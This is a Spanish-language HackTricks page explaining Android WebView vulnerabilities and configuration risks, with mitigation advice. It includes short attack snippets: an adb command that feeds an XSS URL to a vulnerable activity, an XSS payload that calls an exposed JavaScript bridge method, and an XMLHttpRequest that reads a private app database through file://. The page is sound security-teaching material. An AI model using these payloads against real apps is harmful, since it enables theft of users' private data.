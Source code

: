 # Ataques a Webview

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Guía simplificada sobre Configuraciones y Seguridad de WebView

### Resumen de Vulnerabilidades de WebView

Un aspecto crítico del desarrollo de Android implica el manejo correcto de WebViews. Esta guía destaca configuraciones clave y prácticas de seguridad para mitigar los riesgos asociados con el uso de WebView.

![Ejemplo de WebView](../../.gitbook/assets/image%20(718).png)

### **Acceso a Archivos en WebViews**

Por defecto, las WebViews permiten el acceso a archivos. Esta funcionalidad está controlada por el método `setAllowFileAccess()`, disponible desde Android API nivel 3 (Cupcake 1.5). Las aplicaciones con el permiso **android.permission.READ_EXTERNAL_STORAGE** pueden leer archivos desde el almacenamiento externo utilizando un esquema de URL de archivo (`file://ruta/al/archivo`).

#### **Funciones Obsoletas: Acceso Universal y Acceso a Archivos Desde URLs**

- **Acceso Universal Desde URLs de Archivo**: Esta función obsoleta permitía solicitudes entre dominios desde URLs de archivo, lo que representaba un riesgo de seguridad significativo debido a posibles ataques XSS. La configuración predeterminada está deshabilitada (`false`) para aplicaciones dirigidas a Android Jelly Bean y versiones más recientes.
- Para verificar esta configuración, utiliza `getAllowUniversalAccessFromFileURLs()`.
- Para modificar esta configuración, utiliza `setAllowUniversalAccessFromFileURLs(boolean)`.

- **Acceso a Archivos Desde URLs de Archivo**: Esta función, también obsoleta, controlaba el acceso a contenido desde otros URLs de esquema de archivo. Al igual que el acceso universal, su configuración predeterminada está deshabilitada para una mayor seguridad.
- Utiliza `getAllowFileAccessFromFileURLs()` para verificar y `setAllowFileAccessFromFileURLs(boolean)` para establecer.

#### **Carga Segura de Archivos**

Para deshabilitar el acceso al sistema de archivos y seguir accediendo a activos y recursos, se utiliza el método `setAllowFileAccess()`. Con Android R y versiones posteriores, la configuración predeterminada es `false`.
- Verifica con `getAllowFileAccess()`.
- Habilita o deshabilita con `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

La clase **WebViewAssetLoader** es el enfoque moderno para cargar archivos locales. Utiliza URLs http(s) para acceder a activos y recursos locales, alineándose con la política de mismo origen, facilitando así la gestión de CORS.

### **Manejo de JavaScript y Esquema de Intentos**

- **JavaScript**: Deshabilitado por defecto en WebViews, puede habilitarse a través de `setJavaScriptEnabled()`. Se recomienda precaución, ya que habilitar JavaScript sin las debidas precauciones puede introducir vulnerabilidades de seguridad.

- **Esquema de Intentos**: Las WebViews pueden manejar el esquema `intent`, lo que potencialmente puede llevar a explotaciones si no se gestiona cuidadosamente. Un ejemplo de vulnerabilidad involucró un parámetro expuesto de WebView "support_url" que podría ser explotado para ejecutar ataques de scripting entre sitios (XSS).

![WebView Vulnerable](../../.gitbook/assets/image%20(719).png)

Ejemplo de explotación usando adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Puente de JavaScript

Android proporciona una característica que permite que **JavaScript** en un WebView invoque **funciones nativas de la aplicación de Android**. Esto se logra utilizando el método `addJavascriptInterface`, que integra JavaScript con funcionalidades nativas de Android, denominado como un _puente de JavaScript de WebView_. Se recomienda precaución, ya que este método permite que todas las páginas dentro del WebView accedan al objeto de Interfaz de JavaScript registrado, lo que representa un riesgo de seguridad si se expone información sensible a través de estas interfaces.

### Consideraciones Importantes

- **Se requiere extrema precaución** para aplicaciones dirigidas a versiones de Android por debajo de 4.2 debido a una vulnerabilidad que permite la ejecución de código remoto a través de JavaScript malicioso, explotando la reflexión.

#### Implementando un Puente de JavaScript

- **Las interfaces de JavaScript** pueden interactuar con el código nativo, como se muestra en los ejemplos donde se expone un método de clase a JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- JavaScript Bridge se habilita agregando una interfaz al WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
- Posible explotación a través de JavaScript, por ejemplo, mediante un ataque XSS, permite llamar a métodos Java expuestos:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
- Para mitigar riesgos, **restrinja el uso del puente JavaScript** al código enviado con el APK y evite cargar JavaScript desde fuentes remotas. Para dispositivos más antiguos, establezca el nivel mínimo de API en 17.

### Ejecución de Código Remoto (RCE) basada en Reflexión

- Un método documentado permite lograr RCE a través de reflexión al ejecutar un payload específico. Sin embargo, la anotación `@JavascriptInterface` evita el acceso no autorizado a métodos, limitando la superficie de ataque.

### Depuración Remota

- La **depuración remota** es posible con **Chrome Developer Tools**, lo que permite la interacción y la ejecución arbitraria de JavaScript dentro del contenido de WebView.

#### Habilitar la Depuración Remota

- La depuración remota se puede habilitar para todos los WebViews dentro de una aplicación mediante:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Para habilitar la depuración condicionalmente basada en el estado de depuración de la aplicación:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Exfiltrar archivos arbitrarios

- Demuestra la exfiltración de archivos arbitrarios utilizando un XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Referencias
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
